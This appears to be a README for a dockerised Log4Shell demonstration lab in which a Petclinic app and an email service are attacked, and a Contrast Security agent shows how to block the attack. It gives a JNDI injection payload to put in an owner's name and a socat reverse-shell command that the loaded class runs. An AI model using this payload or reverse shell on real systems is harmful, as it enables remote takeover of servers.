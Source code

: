 

## Contrast Configuration

Before Starting up, you will need to configure the agent, by setting the credentials in the contrast_security.yaml. DO NOT CHECK THIS IN TO GIT.
During the docker build process it will download the latest agent version.
Whether Assess or Protect are enabled are controlled by environment variables in the docker-compose.yaml file. This allows you to quickly enable/disable Assess/Protect without rebuilding the docker images.
Just change the values and restart ( docker-compose up ).

## Setup


Run the services up using docker ( from the root of the project )
```docker-compose up```

Once up, login to the log4shell service and open socat using the following command
```docker exec -it Log4ShellServer bash -c "/ListenForShell.sh"```

Then open a browser and access Petclinic
http://localhost:8080
Login as admin : password
Add a new Owner and add the following to the first or last name
```${jndi:ldap://log4shell-service:1389/jdk8}```
Once the owner is saved, you will be able to execute commands from the log4shell terminal.
The commands are run on the EmailService OS.



## What Is Happening

When you send the payload to the Petclinic application via the Owner firstname/lastname the following occurs.
* Petclinic sends the Owner details to the Email Service
* The Email Service logs that information using a vulnerable version of log4j
* Log4j initiates a JNDI/LDAP connection to the Log4Shell service and downloads a class
* That class is executed within the Email Service, which in turn executes the following commmand on the underlying OS of the Email Service
  * "socat TCP4:log4shell-service:8082 EXEC:/bin/bash"
* This, uses Socat create a reverse shell which calls back to the Log4Shell Service, allowing the terminal in Log4Shell to execute arbitrary commands on the Email Service and see the results.

## How to Block
* This can be blocked by Protect by setting to BLOCK in the Email Service the log4shell or JNDI rules.





